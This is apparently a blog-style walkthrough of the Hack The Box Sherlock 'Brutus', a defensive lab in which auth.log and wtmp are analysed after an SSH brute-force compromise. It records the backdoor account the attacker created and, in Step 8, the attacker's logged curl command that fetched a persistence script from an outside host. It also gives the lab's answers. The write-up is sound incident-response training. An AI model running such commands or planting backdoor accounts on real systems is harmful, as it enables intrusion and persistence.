


## 🛡️ Brutus (Hack The Box Sherlock) – Introduction

 This Sherlock focuses on defensive investigations and log analysis.
 The scenario simulates an investigation of a Linux server (Confluence)
 that was brute-forced via SSH. The primary artifacts for analysis are:
 - /var/log/auth.log
 - wtmp (login records)

### Objective:
 - Perform an investigation from an incident responder / DFIR perspective.
 - Identify the brute-force activity, timeline, and attacker actions.
 - Find evidence of any privilege escalation, persistence, or command execution.
 - Document findings and recommended remediation.

### Rules / Notes:
 - Approach this exercise like a real-world investigation (chain of custody, timeline).
 - Manual analysis is encouraged; use tools where they add clear value.
 - Deliverables: short executive summary, timeline of events, key evidence screenshots,
   indicators of compromise (IOCs), remediation suggestions.

📷 **Screenshot:** 


---

## 🔍 Step 1 — Prepare artifacts & find attacker IP from auth.log (Windows workflow)

### 1) Extract the provided archive (GUI)
 - Open brutus.zip with 7-Zip (or right-click → 7-Zip → Extract).
 - Enter the unzip password provided by the room when prompted.
 Screenshot: screenshots/brutus_01_7zip_extract.png

### 2) Verify extracted files (Windows CMD / Explorer)
 - Using File Explorer you should see two files: auth.log  wtmp

### 3) Open auth.log in Notepad (or Notepad++)
 - Right-click auth.log → Open with → Notepad (or Notepad++).
 Screenshot: screenshots/brutus_03_notepad_open.png

### 4) Find failed login attempts (simple GUI method)
 - Press Ctrl+F to open the search box.
 - Search keywords such as: failed, Failed password, Invalid user, authentication failure
 - Visually inspect the repeated failure lines; the attacker IP is visible in those lines.

📷 **Screenshots:**


### Evidence to include:
 - Screenshot showing the highlighted failed login lines in Notepad (include timestamp + IP).


---

## Step 2 — Identify the compromised username (Windows / Notepad)

###1) Open `auth.log` in Notepad (or Notepad++).
   - Right-click → Open with → Notepad.
   - Screenshot: screenshots/brutus_07_notepad_open_session.png

###2) Use the search box (Ctrl+F) and look for successful login / session keywords:
   - Suggested searches: "session opened for user", "Accepted password for", "session opened"
   - In this log the successful session entries are obvious; locate a line like:
     "session opened for user <username>(uid=...)"

📷 **Screenshot:** 
 


### Evidence to include:
 - Screenshot shows the compromised username.


---

## 🔎 Step 3 — Find the interactive login time from wtmp (Answer for Q3)

### Context / Goal:
 - auth.log records authentication attempts (password accepted or rejected).
 - wtmp records interactive sessions (when a user actually gets a terminal/tty).
   The lab asks for the UTC timestamp when the attacker logged in interactively,
   so we must analyze wtmp with utmpdump.

### 1) On Kali, change to the directory containing the extracted files (where wtmp is located)
```
cd /path/to/extracted/brutus
```

### 2) Dump wtmp to readable output (run directly; no redirection was used)
```
utmpdump wtmp

```

### 3) Inspect the utmpdump output and find the interactive session entry.
 The entry for the attacker session (root login via pts1 from the attacker IP) shows the UTC timestamp.

 
📷 **Screenshot:** 



### Explanation:
 - auth.log shows the authentication event (when a password was accepted).
 - wtmp (via utmpdump) shows when the interactive terminal/session was actually created.
 - The session entry provides the UTC login time requested by the question.

### Final Answer (Q3):
 The UTC timestamp when the attacker logged in and established a terminal session is:
 2024-03-06 06:32:45 UTC

📷 **Screenshot:** 



---

## 🔎 Step 4 — Find the SSH session number for the compromised account (Windows / Notepad++)

### 1) Open `auth.log` in **Notepad++**.
 - Right-click → Open with → Notepad++.

📷 **Screenshot:**


### 2) Press **Ctrl+F** and search for: Accepted password
 - This shows the successful authentication line for the attacker.

### 3) Immediately after the authentication line you can see a `New session` entry which assigns the SSH session number.
 - In the provided screenshot this appears around **line 324** as:
  ```
  systemd-logind[...] : New session 37 of user root.
  ```
 - That **37** is the session number assigned to the attacker's interactive session.

### 4) Capture a screenshot showing both the `Accepted password` line and the following `New session 37` line as evidence.

📷 **Screenshot:**


---

## Step 5 – Persistence via New User

### Question: The attacker added a new user as part of their persistence strategy on the server and gave this new user account higher privileges. What is the name of this account?

### Walkthrough:

1) Open the auth.log file in Notepad++ (or any text editor).

2) Press Ctrl + F to open the search function.

3) Search for the keyword Accepted password – this marks the point where the attacker successfully gained access to the server.

4) Examine the lines immediately after this event. You will find that the attacker added a new user to maintain persistence.

📷 **Screenshot:**


### Observation:

The new user account created by the attacker is: cyberjunkie

This account was given elevated privileges, allowing the attacker to maintain access even if the root credentials were changed.

### Answer: cyberjunkie

📷 **Screenshot:**


---


## Step 6 – MITRE ATT&CK Sub-technique ID for Persistence via New Account

### Question:
What is the MITRE ATT&CK sub-technique ID used for persistence by creating a new account?

### Answer:
### T1136.001

📷 **Screenshot:**


### Explanation:
The MITRE ATT&CK framework categorizes adversary techniques into various tactics and sub-techniques. The sub-technique T1136.001 falls under the Persistence tactic and refers to the creation of a Local Account. This technique involves adversaries creating a local user account on a compromised system to maintain access, even if other credentials are changed or revoked. Such accounts are typically configured for use by users, remote support, services, or for administration on a single system or service. 
MITRE ATT&CK

### Detection:
In your lab scenario, the attacker created a new user account named cyberjunkie to establish persistence on the compromised server. This action aligns with the T1136.001 sub-technique, as it involves creating a local account to ensure continued access to the system.

### Reference:
For more detailed information on this technique, you can visit the official MITRE ATT&CK page: 
[MITRE ATT&CK](https://attack.mitre.org/techniques/T1136/001)

📷 **Screenshot:**


---


## Step 7 – Attacker’s First SSH Session End Time

### Question:
What time did the attacker’s first SSH session end according to auth.log?

### Walkthrough:

1) Open the auth.log file in Notepad++.

2) Press Ctrl + F to open the search function.

3) Search for the keyword disconnect – this will help locate where SSH sessions were terminated.

4) Look for the line corresponding to the attacker’s first SSH session. The timestamp on this line indicates when the session ended.

📷 **Screenshot:**


### Observation:

The attacker’s first SSH session ended at: 2024-03-06 06:37:24

📷 **Screenshot:**


### Answer: 2024-03-06 06:37:24


---


## Step 8 – Command Used by Attacker to Download Script

### Question:
The attacker logged into their backdoor account and utilized their higher privileges to download a script. What is the full command executed using sudo?

### Walkthrough:

1) Open the auth.log file in Notepad++.

2) You can scroll through the file or use Ctrl + F to search for keywords like sudo or curl, which are commonly used for downloading scripts.

3) In this case, the attacker executed a command to download a script from GitHub. The relevant entry is found on line 375 in the log.

### Observation:

The full command executed by the attacker is:

```
/usr/bin/curl https://raw.githubusercontent.com/montysecurity/linper/main/linper.sh
```

📷 **Screenshot:**


### Answer:
/usr/bin/curl https://raw.githubusercontent.com/montysecurity/linper/main/linper.sh

📷 **Screenshot:**


### Tip:

Searching for sudo or curl in auth.log usually helps quickly locate commands executed with elevated privileges.

Alternatively, looking for lines immediately after the backdoor login session timestamp can also narrow it down.


---


## Conclusion

The Brutus Hack The Box – Sherlock lab provided a hands-on exercise in defensive investigation and log analysis. Throughout the lab, we successfully:

1) Identified the attacker’s IP address performing brute-force attacks.

2) Tracked the compromised account and observed how the attacker gained root access.

3) Extracted session details from wtmp and auth.log to determine login timestamps and session numbers.

4) Detected persistence techniques, including the creation of a backdoor user (cyberjunkie) with elevated privileges.

5) Mapped attacker actions to the MITRE ATT&CK framework (T1136.001) for persistence via local account creation.

6) Monitored attacker activities, including the execution of commands using sudo to download scripts.

This lab reinforced key SOC and incident response skills: analyzing authentication logs, detecting suspicious activity, identifying attacker persistence mechanisms, and correlating actions with established threat frameworks.

By following this systematic approach, we learned how to investigate, document, and respond to security incidents effectively.


